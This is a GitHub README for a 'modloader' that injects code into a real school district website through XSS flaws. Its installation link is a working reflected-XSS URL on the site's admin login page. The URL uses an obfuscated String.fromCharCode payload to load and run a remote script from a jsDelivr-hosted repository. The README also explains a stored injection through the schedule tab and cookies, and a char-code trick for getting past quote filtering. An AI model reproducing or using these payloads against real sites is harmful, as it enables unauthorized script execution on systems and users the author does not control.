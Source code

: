 # RHS-Modloader
An extension for the RHS website allowing you to install plugins and code. This is done by taking advantage of multiple HTML injection bugs in the website.

Supported on every device. An electron app will also be added to the releases tab at some point.
The Modloader itself will automatically update, but the electron app might need some app level changes to push to releases

***-- COOKIES WILL NOT WORK ON DAYS WITHOUT SCHOOL --***

(If you prefer a longer link that is much more stable with no install, go [here]())

# Installation Instructions

As of right now, while it is less automatic, copying the code manaully is much more stable than attempting to change the domain's cookies, so this is reccomended for the time being.

1. Go to the [RHS Modloader website](https://app.ridgewood.k12.nj.us/admin/index.php?username=&error=%3Cscript%3Einstall=String.fromCharCode(115,99,114,105,112,116);replace=String.fromCharCode(104,116,116,112,115,58,47,47,99,100,110,46,106,115,100,101,108,105,118,114,46,110,101,116,47,103,104,47,80,111,121,114,97,122,79,122,107,117,115,97,107,115,105,122,47,82,72,83,45,77,111,100,108,111,97,100,101,114,64,109,97,115,116,101,114,47,105,110,115,116,97,108,108,101,114,46,106,115);var%20scriptTag%20=%20document.createElement(install);scriptTag.src%20=%20replace;document.body.appendChild(scriptTag);%3C/script%3E) and click "Copy Code Manually".

2. Go back to the official RHS Website and edit your schedule. If school is not happening on that day, you can change the date by adding ``?date=(year)-(month)-(day)`` to the end of the URL. 

*Month and day must be two digit, so for example use "03" instead of "3"*

3. To the end of every period name, paste the code you have copied. If that period is not present on a day, the code for it will not run. While putting it on 3 or 4 periods would also work for most days, there are some days with weird schedules. If done correctly, you won't see the code again.

# How this works

I have found two ways to add HTML onto the RHS website:

- Through the admin website
- By storing HTML in cookies

These are both forms of XSS as they allow self script injection.

The admin login for the RHS Website lets you directly add code to it using the [URL's error message](https://app.ridgewood.k12.nj.us/admin/index.php?username=&error=%3Ch1%3EHello%20RHS!%3C/h1%3E),
and the main website allows it through the schedule tab, which just adds it on as plain text. This is also stored as cookies instead of in the URL, where your schedule is also stored.

While both of these don't like it when you add code directly (they cancel quotes), making strings from char codes is a very nice alternative and runs well.
